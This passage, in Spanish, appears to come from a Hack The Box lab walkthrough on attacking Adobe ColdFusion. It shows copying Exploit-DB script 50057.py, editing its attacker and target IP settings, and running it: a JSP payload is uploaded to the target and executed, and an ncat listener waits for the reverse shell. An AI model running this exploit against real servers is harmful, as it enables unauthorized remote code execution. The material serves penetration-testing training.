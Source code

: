 Atacando a Coldfusion

```
xnoxos@htb[/htb]$ cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

Un rápido`cat`La revisión del código indica que el script necesita alguna información. Establezca la información correcta y inicie el exploit.

### **Modificación de explotación**

Código:pitón

```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex

```

El exploit tomará un poco de tiempo en su lanzamiento, pero eventualmente devolverá un shell remoto funcional

### **Explotación**

Atacando a Coldfusion

```
xnoxos@htb[/htb]$ python3 50057.py Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Priting request...
Content-type: multipart/form-data; boundary=77c732cb2f394ea79c71d42d50274368
Content-length: 1698

--77c732cb2f394ea79c71d42d50274368

<SNIP>

--77c732cb2f394ea79c71d42d50274368--

Sending request and printing response...

		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/1269fd7bd2b341fab6751ec31bbfb610.jsp/1269fd7bd2b341fab6751ec31bbfb610.txt", "1269fd7bd2b341fab6751ec31bbfb610.txt", "0" );
		</script>

Printing some information for debugging...
lhost: 10.10.14.55
lport: 4444
rhost: 10.129.247.30
rport: 8500
payload: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
```